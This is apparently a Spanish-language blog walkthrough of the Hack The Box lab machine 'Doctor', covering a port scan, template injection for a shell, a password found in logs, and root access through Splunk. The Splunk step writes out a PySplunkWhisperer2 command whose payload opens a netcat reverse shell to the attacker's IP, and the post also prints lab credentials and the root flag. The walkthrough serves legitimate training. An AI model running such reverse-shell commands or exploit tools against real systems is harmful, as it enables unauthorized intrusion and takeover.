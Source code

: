 ```yaml
---
layout: post
title: Write-Up Máquina Doctor HTB
date: 2021-01-30 16:00 +0800
last_modified_at: 2021-01-30 16:10 +0800
tags: [htb, writeup, linux, splunk, ssti]
toc:  true
---
```


![Doctor-info-card](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-info-card.png)

## Introducción

La máquina doctor, Es una máquina de dificultad fácil la cual corre un sistema linux de 64 bits. Para explotar esta máquina vamos utilizar una [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) para obtener una reverse shell inicial. Una vez obtenida encontraremos una password que nos servirá para obtener el usuario. Para la escalada de privilegios, explotaremos el servicio splunk con las credenciales del usuario shaun.

---
## Escaneo

```bash
nmap  10.10.10.209 -p- -sV -sC --min-rate=5000                                                                                    

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 15:02 CET
Nmap scan report for doctor.htb (10.10.10.209)
Host is up (0.031s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.70 seconds
```
Esta máquina tiene 3 puertos abiertos:
* Puerto 22: SSH
* Puerto 80: HTTPd (apache)
* Puerto 8089: HTTP (Splunk)


### Puerto 22
En el puerto 22 Nos encontramos con el un servidor SSH.

### Puerto 80
En el puerto 80, nos encontramos con un servidor web apache. En este caso si accedemos a través de la IP nos encontramos con una pagina estática. En ella podemos ver un correo con un dominio. 

![Doctor-email](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-email.png)

### Puerto 8089
En el puerto 8089, nos encontramos con un servidor de splunk.

---
## Enumeración

Si añadimos el dominio doctors.htb y accedemos al la web, nos encontramos con una pagina de login, la cual tiene una opción para registrar una cuenta.

![Doctor-login](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-login.png)

Vamos a registrar una cuenta y accedemos a la web principal. Una vez ahi se nos da la opción de postear un nuevo mensaje.

Vamos a postear un mensaje nuevo.

![Doctor-new-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-new-message.png)
![Doctor-posted-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-posted-message.png)

Vemos que podemos ver los mensajes que escribimos. Si vamos a view-source:http://doctors.htb/archive vemos que el título de el post aparece reflejado. Esto es indicativo de un posible server-side template injection.

---
## Explotación

Para la explotación vamos a crear un nuevo post con nuestro payload en el título, ya que es el título  lo que se refleja.

En este caso el payload va a ser una reverse shell en python, ya que el backend de la página es una implementación de flask.
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

En este caso nuestro payload sera el siguiente:

![Doctor-payload-ssti](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-payload-ssti.png)



Una vez creemos el post nuevo accederemos a http://doctors.htb/archive recibiremos nuestra reverse en el puerto 1234.

![Doctor-reverse-shell](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-reverse-shell.png)

Ya que tenemos una reverse shell, vamos a enumerar la maquina en busca de pistas para obtener el usuario. Para esto vamos a subir el script de [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) y vamos a enumerar la máquina.

```log
[+] Finding passwords inside logs (limit 70)
Binary file /var/log/apache2/access.log.12.gz matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file /var/log/kern.log.2.gz matches
Binary file /var/log/kern.log.4.gz matches
Binary file /var/log/syslog.4.gz matches
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:15:51:36 +0100] "GET /reset_password HTTP/1.1" 200 1812 "-" "gobuster/3.0.1"
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:16:39:18 +0100] "GET /reset_password HTTP/1.1" 200 1811 "-" "gobuster/3.0.1"
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 23 15:38:45 doctor sudo:    shaun : command not allowed ; TTY=tty1 ; PWD=/home/shaun ; USER=root ; COMMAND=list
/var/log/auth.log.1:Sep 28 13:31:10 doctor sudo:     root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/usr/sbin/setcap -r /usr/bin/python3/
```

Vemos que en uno de los logs hay una contraseña y también se hace referencia al usuario shaun.

Vamos entonces a probar las credenciales:
* username: shaun
* password: Guitar123

```bash
web@doctor:/tmp$ su shaun
su shaun
Password: Guitar123

id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```
Como podemos ver ya somos usuario shaun y por tanto podemos ver la flag.

![Doctor-flag-user](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-flag-user.png)

---
## Escalada de privilegios

Al principio, vimos que la máquina tenia levantado un servidor de splunk en el puerto 8089. Si vamos a la URL https://10.10.10.209:8089/services nos pedirá unas credenciales. Ya que tenemos credenciales para el usuario shaun, vamos a probarlas.

![Doctor-services-splunk](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-services-splunk.png)

Como podemos comprobar tenemos acceso y las credenciales son validas. Una vez sabemos esto, vamos a buscar la forma de ejecutar comandos. 

Para este caso encontré una herramienta en github la cual nos permite de manera remota ejecutar una escalada de privilegios a traves de malas configuraciones en el [splunk universal forwarder](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/).

```bash
python3 PySplunkWhisperer2_remote.py --host doctors.htb --port 8089 --lhost 10.10.14.29 --user shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.29' 1111"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpmj9na35k.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.29:8181/
10.10.10.209 - - [04/Feb/2021 19:59:20] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
![Doctor-root-check](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-root-check.png)

como podemos ver, recibimos la reverse shell y ya somos root.

```
cat /root/root.txt
76373cb2c7aee0a7cfb9c284801cd62b
```


